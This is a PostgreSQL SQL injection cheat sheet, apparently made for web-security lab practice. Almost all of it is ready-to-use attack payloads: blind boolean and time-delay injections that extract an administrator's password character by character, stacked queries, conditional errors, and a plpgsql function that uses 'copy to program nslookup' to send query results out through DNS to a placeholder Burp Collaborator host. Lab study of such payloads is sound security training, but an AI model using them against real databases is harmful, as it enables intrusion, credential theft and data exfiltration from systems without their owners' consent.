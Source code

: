 ## summary

Useful SQL commands for postgresql dbms

## string concatenation
`'foo'||'bar'`

## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`--comments`

`/*comments*/`

## database version
`select version()`

## database contents
`select * from information_schema.tables`

`select table_name from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

`select column_name from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## blind queries
### samples
`xyz' and (select version() like 'Posgre%25')--`

`xyz' and (select username from users limit 1)='administrator'--`

`xyz' and SUBSTRING((select password from users where username='administrator'),1,1)='a'`

`xyz' and (select 'a' from users where username='administrator' and LENGTH(password)<90)='a'--`

## conditional errors
`select case when (YOUR-CONDITION-HERE) then cast(1/0 as text) else null end`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`select pg_sleep(10)`

### samples
`xyz'; select pg_sleep(10)--`

`xyz'; (select pg_sleep(10) from users where username='administrator' and substring(password,1,1)>'a')--`

## conditional time delays
`select case when (YOUR-CONDITION-HERE) then pg_sleep(10) else pg_sleep(0) end`

## dns lookup
`copy (select '') to program 'nslookup YOUR-COLLABORATOR.burpcollaborator.net'`

## dns lookup with data exfiltration
`create or replace function f() returns void as $$ declare c text; declare p text; begin select into p (select YOUR-QUERY-HERE); c := 'copy (select '''') to program ''nslookup '||p||'.YOUR-COLLABORATOR.burpcollaborator.net'''; execute c; end; $$ language plpgsql security definer; select f(); 



